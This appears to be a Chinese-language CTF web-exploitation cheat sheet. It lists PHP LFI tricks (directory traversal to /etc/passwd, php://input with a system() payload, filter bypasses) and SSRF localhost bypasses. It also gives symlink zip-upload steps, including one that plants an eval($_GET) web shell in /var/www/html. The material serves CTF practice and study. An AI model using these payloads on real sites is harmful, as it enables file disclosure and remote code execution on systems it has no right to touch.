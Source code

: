[php代码审计总结](https://mp.weixin.qq.com/s/Hlk5lXwbaDTmfxOLbFIATg)

bp 试一下scan
       if(!preg_match("/php|file|\:|base|rot/i",$c)){
file,base,rot

sql, xpath报错只能显示32位。用left, mid right截取显示剩余部分


[TOC]
# 解题思路

信息搜集:bypass, 命令执行漏洞
文件路径加.bak 如 /upload.php 访问 /upload.php.bak看有没有源码

注意文件上传马尽量UTF8编码

8. 手动闭合字符串插入内容，再拼接，见dasctf 迷路的魔法少女。

绕过/ssrf  绕127.0.0.1或本地限制 127.0.0.2/0.0.0.0

## LFI - Local File Include
1. %00 截断问题 CVE-2020-7066
2. 目录穿越 /../../../../../../../../etc/passwd
3. 伪协议 ?url=php://input  , 在最下面位置 `<?php system('ls');?>`
2. includes/class_<input>.php => includes/class_aaa/../../../../info
3. str_replace('../', '')   双写POC:  ..././ -> ../
4. 查看html隐藏字段提交
5. 查看 robots.txt, hint.txt, index.php, flag.php, index.php~, index.php.swp, 当前页 php
6. 二次编码,例 `"admin"!==x && urlencode(x) == 'admin'` , 二次encode x
7. filename  提示目录穿越
7. file 提示为伪协议
8. 远程文件包含

## 上传文件
### ln 文件链接
1.python| zip文件 | 上传passwd的link `BUUCTF：[HCTF 2018]Hide and seek` https://blog.csdn.net/mochu7777777/article/details/105190181/
```
ln -s /etc/passwd link1
zip -y link1.zip link1
```
2. 深育杯zipzip

```
mkdir 111
cd 111
/111# ln -s /var/www/html file1
/111# zip --symlinks 1.zip file1

/111# mkdir aaa
/111# cd aaa
/111/aaa# mkdir file1
/111/aaa# cd file1
/111/aaa/file1# echo '<?php eval($_GET[1]);?>' > 1.php
/111/aaa/file1# cd ..
/111/aaa# zip -r 2.zip ./*
```
将1.zip和2.zip依次上传，即可将1.php映射到/var/www/html目录下
